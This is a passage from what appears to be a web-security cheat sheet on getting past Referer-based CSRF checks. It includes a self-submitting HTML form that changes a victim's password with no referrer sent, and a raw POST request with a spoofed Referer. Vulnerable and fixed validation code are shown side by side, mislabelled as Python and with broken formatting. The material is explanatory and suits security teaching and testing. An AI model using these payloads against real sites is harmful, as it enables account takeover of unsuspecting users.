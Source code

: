       ```python
      # Just Remove The referrer
      <html>
       <meta name="referrer" content="no-referrer">
       <form method="POST" action="<https://email.example.com/password_change>" id="csrf-form">
       <input type="text" name="new_password" value="abc123">
       <input type='submit' value="Submit">
       </form>
       <script>document.getElementById("csrf-form").submit();</script>
      </html>
      --------------------
      # Expected Code
      def validate_referer():
       if (request.referer in allowlisted_domains):
      pass
       else:
       throw_error("Referer incorrect. Request rejected.")
      [...]
      def process_state_changing_action():
       if request.referer:
       validate_referer()
       execute_action()
      ---------------------------
      # another way
      POST /password_change
      Host: email.example.com
      Cookie: session_cookie=YOUR_SESSION_COOKIE;
      Referer: example.com.attacker.com
      (POST request body)
      new_password=abc123
      ------------------
      # Vulnerable code
      def validate_referer():
       if request.referer:
       if ("example.com" in request.referer):
       pass
       else:
       throw_error("Referer incorrect. Request rejected.")
      [...]
      def process_state_changing_action():
       validate_referer()
       execute_action()
      ```
  *   **Bypass CSRF Protection by Using XSS**
